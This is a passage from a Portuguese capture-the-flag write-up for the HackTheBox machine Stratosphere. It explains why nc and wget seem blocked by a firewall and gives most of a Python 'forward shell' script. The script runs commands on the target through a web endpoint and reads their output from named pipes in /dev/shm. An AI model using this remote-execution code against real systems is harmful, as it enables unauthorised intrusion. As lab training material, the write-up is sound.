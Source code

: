Bom, o de sempre é conseguir pegar um shell, pra ai sim podermos enumerar a máquina inteira e conseguir pontos para escalação de privilégio, mas o que percebi é que deve ter algum tipo de firewall bloqueando qualquer coisa que tenha NC ou WGET...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-stratosphere/S_web26.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-stratosphere/S_web27.png)

A requisição simplesmente não vai... fica travada, por isso acho que seja firewall

A opção que temos aqui é a utilização de um `Forward Shell`, um seja que sirva para burlar esse firewall.. na real ele não vai burlar mesmo, ele vai jogar a saida dos comandos para um arquivo, e eu vou ler esse arquivo, então vai ser sempre localmente, não vai precisar sair da máquina. Ele é muito útil para essas situações. Poderíamos 

## Forward Shell

Ele foi muito bem explicado no vídeo `Sokar Vulnhub` do `Ippsec` eu ainda tenho que tomar vergonha na cara e ver esse vídeo, mas o script está aqui. Logicamente não seria obrigatório utilizar ele, poderíamos fazer toda a enumeração manualmente, mas assim, é bacana ter esse tipo de ferramenta

forward-shell.py
```
#!/usr/bin/python3
# -*- cofing: utf-8 -*-
# O que ele faz aqui ele joga a saida do comando para um arquivo, e depois le o arquivo, na bucha nada sai da maquina, isso burla o firewall
import base64
import random
import requests
import threading
import time

class WebShell(object):
	# Inicializando Class + Setup Shell
	def __init__(self, interval=1.3, proxies='http://127.0.0.1:8080'):
		self.url = r"http://10.10.10.64/Monitoring/example/Welcome.action"
		self.proxies = {'http' : proxies}
		session = random.randrange(10000,99999)
		print(f"[*] Session ID: {session}")
		self.stdin = f'/dev/shm/input.{session}'
		self.stdout = f'/dev/shm/output.{session}'
		self.interval = interval

		# Setando um shell
		print("[*] Setando um fifo shell no alvo")
		MakeNamedPipes = f"mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}"
		self.RunRawCmd(MakeNamedPipes, timeout=0.1)

		# Setando uma thread
		print("[*] Setando uma thread")
		self.interval = interval
		thread = threading.Thread(target=self.ReadThread, args=())
		thread.daemon = True
		thread.start()

	# Lendo a $session, dando na tela o texto e limpando a session, isso sempre vai ler o stoudt
	def ReadThread(self):
		GetOutput = f"/bin/cat {self.stdout}"
		while True:
			result = self.RunRawCmd(GetOutput) # proxy=None
			if result:
				print(result)
				ClearOutput = f'echo -n "" > {self.stdout}'
```